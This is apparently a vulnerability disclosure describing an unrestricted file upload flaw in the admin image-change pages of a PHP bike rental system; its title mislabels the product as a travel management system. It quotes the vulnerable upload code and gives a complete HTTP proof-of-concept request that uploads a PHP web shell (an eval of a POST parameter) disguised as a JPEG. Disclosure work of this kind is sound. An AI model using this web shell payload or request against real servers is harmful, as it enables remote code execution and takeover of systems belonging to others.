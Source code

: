 # Travel Management System has File upload vulnerability in /admin/changeimage*.php



## supplier



https://code-projects.org/online-bike-rental-system-using-php-source-code/



## Vulnerability file



/admin/changeimage1.php、/admin/changeimage2.php、/admin/changeimage3.php、/admin/changeimage4.php、/admin/changeimage5.php

The above vulnerability files all have the same issue, and the source code of the vulnerabilities is the samel.

## describe



All files in changeimage *. php have incomplete identification of upload file variables. Hackers can directly upload files with any extension. If the content of the file contains malicious content, it may result in the loss of server permissions.

## **Code analysis**

```
<?php
session_start();
error_reporting(0);
include('includes/config.php');
if(strlen($_SESSION['alogin'])==0)
	{
header('location:index.php');
}
else{
// Code for change password
if(isset($_POST['update']))
{
$vimage=$_FILES["img4"]["name"];
$id=intval($_GET['imgid']);
move_uploaded_file($_FILES["img4"]["tmp_name"],"img/vehicleimages/".$_FILES["img4"]["name"]);
$sql="update tblvehicles set Vimage4=:vimage where id=:id";
$query = $dbh->prepare($sql);
$query->bindParam(':vimage',$vimage,PDO::PARAM_STR);
$query->bindParam(':id',$id,PDO::PARAM_STR);
$query->execute();

$msg="Image updated successfully";



}
?>
```

###### Using the "move_uploaded_file" function, there is no restriction on the type of file upload, which allows malicious files to be uploaded directly by modifying the file extension.

**The above vulnerability files all have the same issue, and the source code of the vulnerabilities is the same. Only one file is listed here for explanation.**

## POC1

```
POST /admin/changeimage4.php HTTP/1.1
Host: 192.168.20.133
Content-Length: 300
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.20.133
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylqS5FsBlhpjSeIev
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.20.133/admin/changeimage4.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4rinhnbm4u05201jo2fh4fnkc6
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive

------WebKitFormBoundarylqS5FsBlhpjSeIev
Content-Disposition: form-data; name="img4"; filename="2.php"
Content-Type: image/jpeg

<?php @eval($_POST['1']); ?>
------WebKitFormBoundarylqS5FsBlhpjSeIev
Content-Disposition: form-data; name="update"


------WebKitFormBoundarylqS5FsBlhpjSeIev--

```

![image-20250106185502284](E:\work\me\cve\cve\Online Bike Rental System\image-20250106185502284.png)

![image-20250106185656436](E:\work\me\cve\cve\Online Bike Rental System\image-20250106185656436.png)

